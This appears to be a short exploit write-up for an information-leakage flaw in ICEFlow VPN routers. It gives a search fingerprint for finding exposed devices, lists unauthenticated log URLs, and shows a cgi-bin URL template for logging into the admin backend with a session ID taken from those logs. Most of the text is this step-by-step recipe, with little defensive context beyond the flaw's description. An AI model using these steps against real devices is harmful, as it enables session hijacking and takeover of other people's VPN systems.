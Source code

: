 # ICEFlow VPN log information leakage vulnerability

## Vulnerability Description

ICEFlow VPN has information leakage vulnerabilities, and attackers can view sensitive data in the log to further attack the system.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">ICEFlow VPN</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="ICEFLOW VPN Router"</span>

## Vulnerability reappears

Accessible logs Url

```plain
系统日志    https://url/log/system.log
VPN日志    https://url/log/vpn.log
访问日志	https://url/log/access.log
告警日志	https://url/log/warn.log
错误日志	https://url/log/error.log
调试日志	https://url/log1/debug.log
移动用户日志 https://url/log/mobile.log
防火墙日志	https://url/log/firewall.log
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313133204051.png)



After obtaining the session based on the log information, you can use real-time login to the system management background:

```plain
https://xxx.xxx.xxx.xxx/cgi-bin/index?oid=10&session_id=xxxxxxxxxxxxxx&l=0
```
